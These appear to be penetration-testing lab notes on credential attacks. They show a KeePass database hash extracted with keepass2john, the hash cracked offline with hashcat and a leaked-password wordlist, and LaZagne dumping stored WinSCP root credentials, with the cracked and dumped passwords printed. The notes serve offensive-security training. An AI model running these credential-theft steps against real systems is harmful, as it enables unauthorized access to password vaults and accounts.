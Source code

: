 ## Password Managers

### Extracting KeePass Hash

```
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 

ILFREIGHT_Help_Desk:$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154
```

### Cracking Hash Offline

hashcat -m 13400 keepass_hash /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154:panther1

## Email

https://github.com/dafthack/MailSniper

## More Fun with Credentials

https://github.com/AlessandroZ/LaZagne

### Running All LaZagne Modules

```
.\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

########## User: jordan ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22

```
